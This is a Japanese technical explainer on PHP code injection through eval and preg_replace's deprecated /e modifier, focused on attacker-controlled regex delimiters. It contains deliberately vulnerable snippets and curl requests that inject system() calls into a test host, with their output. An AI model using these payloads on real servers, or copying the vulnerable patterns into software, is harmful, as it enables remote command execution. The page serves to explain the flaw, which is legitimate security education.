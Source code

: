    * 4.6.0

## 技術的な詳細

### 前提知識

evalのような文字列を再評価処理を行う関数に外部から汚染可能な値を渡すと任意のコマンドの実行が可能な脆弱性ができてしまいます。

 * 外部入力を無害化することなしに再評価処理する脆弱なスクリプト

```php
<?php
eva($_GET['input']);
?>
```

 * 任意のコマンドの実行が可能

```bash
$ curl -X GET "http://vlun.test/test.php?input=system('hostname');"
vlun.test
```

再評価といえばevalですが、正規表現と置換処理を担うpreg_replace関数もeオプションを使用することで文字列再評価を行う機能を持っています。この機能はphp 5.5.0で非推奨の機能となり、php 7.0.0で使えなくなっています。またphp 5.5.0以降ではE_DEPRECATEDの例外が発生し、PHP 7.0.0以降ではE_WARNINGの例外が発生します。また、php 5.4.6まではpreg_replaceにNULL終端攻撃を実行することが可能です。

 * 外部入力を無害化することなしに再評価処理する脆弱なスクリプト

```php
<?php
preg_replace('/.*/e', $_GET['input'], '')
?>
```

 * 任意のコマンドの実行が可能

```bash
$ curl -X GET "http://vlun.test/test.php?input=system('hostname');"
vlun.test
```

次は本件の脆弱性で問題になっている[デリミタ](http://php.net/manual/ja/regexp.reference.delimiters.php)に着目してpreg_replaceの再評価処理をみていきましょう。

 * 正規表現パターンと置き換え文字列を外部入力から渡す

```php
<?php
preg_replace($_GET['input1'], $_GET['input2'], '')
?>
```

 * 任意のコマンドの実行が可能

```bash
$ curl -X GET "http://vlun.test/test.php?input1=/.*/e&input2=system('uname+-a');"
Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2+deb8u3 (2016-07-02) x86_64 GNU/Linux
```
